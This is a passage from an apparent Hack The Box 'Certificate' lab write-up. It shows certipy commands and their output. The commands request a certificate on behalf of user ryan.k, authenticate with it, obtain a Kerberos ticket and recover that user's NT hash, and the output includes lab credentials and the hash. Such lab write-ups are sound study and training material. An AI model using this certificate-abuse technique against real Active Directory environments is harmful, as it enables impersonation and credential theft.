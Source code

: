 ![alt text](/assets/img/2025-10-05-htb-certificate/ryank.png)

We request a certificate on behalf of ryan.k and authenticate using their certificate to get their NT hash.

```shell
certipy req \
    -u Lion.SK@certificate.htb -p '!QAZ2wsx' \
    -dc-ip 10.129.249.89 -target 'DC01.certificate.htb' \
    -ca 'Certificate-LTD-CA' -template 'SignedUser' \
    -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 25
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx
```

Authenticate using ryan.k's certificate.

```shell
certipy auth -pfx ryan.k.pfx -dc-ip 10.129.249.89
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ryan.k@certificate.htb'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
```

## Shell as Administrator
